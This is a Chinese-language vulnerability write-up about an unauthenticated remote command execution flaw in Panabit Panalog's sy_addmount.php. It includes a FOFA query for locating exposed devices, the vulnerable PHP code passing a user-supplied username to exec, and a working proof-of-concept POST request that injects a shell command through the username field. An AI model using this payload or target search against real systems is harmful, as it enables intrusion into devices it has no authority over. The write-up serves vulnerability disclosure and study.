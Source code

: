 # Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

```
Panabit Panalog
```

## FOFA

```
body="Maintain/cloud_index.php"
```

## 漏洞复现

登录页面

![image-20230314084818630](images/image-20230314084818630.png)

存在漏洞的代码为 account/sy_addmount.php

```
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```
POST /account/sy_addmount.php

username=|id
```

![image-20230314084851344](images/image-20230314084851344.png)